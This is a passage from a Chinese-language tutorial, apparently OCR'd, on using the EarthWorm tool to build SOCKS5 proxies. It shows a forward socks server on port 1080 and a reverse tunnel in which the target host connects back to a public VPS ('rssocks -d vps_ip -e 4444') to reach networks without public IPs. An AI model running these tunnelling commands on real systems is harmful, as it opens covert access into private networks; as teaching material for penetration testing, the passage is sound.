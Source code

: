 

```none
-s 设置状态模式 -l 设置监听端口
```







```none
> .\ew_for_Win.exe -s ssocksd -l 1080ssocksd 0.0.0.0:1080 <--[10000 usec]--> socks server
```

然后使用 SocksCap、Proxifier、ProxyChains 等工具配置上目标主机的 IP 和监听端口即可，socks 要选择 socks5

#### b、反向连接

反向连接适合于目标没有公网 IP 的情况，这时就需要一台公网 vps 了，这里就直接以内网地址作为演示了。

在公网 VPS 上执行以下命令：







```none
ew -s rcsocks -l 1080 -e 4444
```







```none
-e 设置反弹主机端口
```







```none
> ./ew_for_linux64 -s rcsocks -l 1080 -e 4444
```

这条命令表示将 1080 端口接收到的数据转发到 4444 端口上。

在目标主机上执行以下命令：







```none
ew -s rssocks -d vps_ip -e 4444
```







```none
-d 设置反弹主机 IP
```
